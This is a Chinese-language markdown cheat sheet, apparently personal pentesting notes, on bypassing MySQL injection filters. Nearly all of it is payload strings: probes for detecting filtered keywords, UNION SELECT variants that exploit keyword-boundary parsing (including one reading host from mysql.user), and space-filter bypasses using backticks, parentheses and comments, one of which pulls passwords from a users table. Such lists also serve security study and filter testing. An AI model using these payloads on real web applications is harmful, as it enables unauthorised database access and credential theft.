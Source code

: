 ```yaml
---
title: "005_Mysql注入过滤绕过"
date: 2016-04-25 21:09
---
```



## 过滤识别

### 查找关键字

```
and 1=1
and =
and 1
and (select 1)
and union
and union select
and union select 1,2,
and union/**/select/**/1,2
and select
?id=2078-1
?id=2078-if(1,0,1)
?id=2077-mid(123,1,1)
```

### 识别关键词边界

```
where id=8E0union select 1,2,3,4,5,6,7,8,9,0
where id=8.0union select 1,2,3,4,5,6,7,8,9,0
where id=\Nunion select 1,2,3,4,5,6,7,8,9,0
where id=.1union/*.1*/select-.1
where id=.1union/*.1*/select!.1
where id=.1union/*.1*/select~.1
where id=.1union/*.1*/select(1)
where id=.1union/*.1*/select`host`from mysql.user
where id=.1union/*.1*/select'1'
where id=.1union/*.1*/select"1"
where id=.1union/*.1*/select@1
```

## 黑名单过滤绕过

### 过滤空格

反引号, 括号, 注释(/**/) 绕过

```
# 反引号
SQL> select * from`user`;

# 括号
SQL> 'and(true)like(false)union(select(pass)from(users))#

# /**/
```
